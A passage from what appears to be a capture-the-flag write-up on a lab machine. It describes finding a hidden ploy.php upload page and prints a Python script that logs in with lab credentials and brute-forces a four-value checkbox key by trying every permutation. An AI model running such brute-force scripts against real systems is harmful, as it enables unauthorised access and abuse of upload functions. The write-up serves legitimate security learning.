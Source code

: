 {{< figure src="/images/darknet_signal8_xpanel_loggedin.png" >}}

The link to `edit.php` had little value as it simply appeared to be a 'troll' page. I guess the humor here is the fact that code/os command execution has been relatively painful and this may have been a sign of hope.

{{< figure src="/images/darknet_signal8_xpanel_troll_edit.png" >}}

When I viewed the page sources for the page I got when I just logged it, I saw a hint to a `ploy.php` page.

{{< figure src="/images/darknet_signal8_xpanel_ploy.png" >}}

Browsing to `ploy.php`, I was met with a file upload and a series of checkboxes to tick.

{{< figure src="/images/darknet_signal8_xpanel_ploy_upload.png" >}}

It very quickly became obvious that you have to select the right combination of checkboxes in order to be allowed to upload anything. Each checkbox had a numeric value, so I copied this out into a script and proceeded to try all of the combinations possible. I knew a combination was correct if the Spanish term *Key incorrecta!* was not in the response. With some manual fiddling, I also learnt that the key was 4 integers long. Attempting a combination with more or less than 4 keys meant that the HTTP response had *La longitud de la clave no es la correcta!*

```
import requests
import itertools
import sys

VALUES = [37, 12, 59, 58, 72, 17, 22, 10, 99]
PIN = None

s = requests.Session()


def w(text):
    sys.stdout.write('\r' + text)
    sys.stdout.flush()


# Need a valid session before we can continue.
print('[+] Logging in')
s.post('http://signal8.darknet.com/xpanel/index.php', data={
    'username': 'errorlevel',
    'password': 'tc65Igkq6DF',
})

print('[+] Bruting PIN Code ...')
for c in itertools.permutations(VALUES, 4):
    w("{pin}".format(pin=', '.join(map(str, c))))
    r = s.post('http://signal8.darknet.com/xpanel/ploy.php',
               files={'imag': open('test_image.png', 'rb')},
               data={
                   'checkbox[]': c,
                   'Action': 'Upload',
               })

    if 'incorrecta' not in r.text:
        print('\n[+] Found pin: {pin}'.format(pin=', '.join(map(str, c))))
        break

```
